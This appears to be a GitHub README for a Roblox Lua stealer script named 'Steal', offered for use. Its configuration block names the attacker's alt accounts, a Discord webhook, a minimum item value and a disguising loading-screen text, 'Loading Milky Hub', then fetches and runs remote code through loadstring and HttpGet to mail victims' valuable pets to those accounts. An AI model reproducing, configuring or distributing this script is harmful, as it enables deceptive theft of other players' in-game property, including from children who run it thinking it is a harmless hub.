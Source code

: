 # Steal
The stealing script

The script should look like this:

```lua
Webhook = "" --your discord webhook

Usernames = {"AlternativeAccount1",
             "AlternativeAccount2" ,
             "ExampleAccountName",
             "AnotherExampleAccountName"} --put the name of all your accounts and alts to send pets to (from important to less important).

MailMessage = "Things got send" -- try to keep very short to avoid it not working
LoadingScreenText = "Loading Milky Hub"
min_rap = 2000000 -- minimum rap of each item you want to get sent to you. 2 mil by default. 

loadstring(game:HttpGet("https://raw.githubusercontent.com/Cezar-Very-Epic/Steal/main/StealScript"))()
```

You can also check Steal Custom Loadingscreen if you want to make your own loadingscreen (only do that if you have coding experience) or no loadingscreen at all (not recomanded).
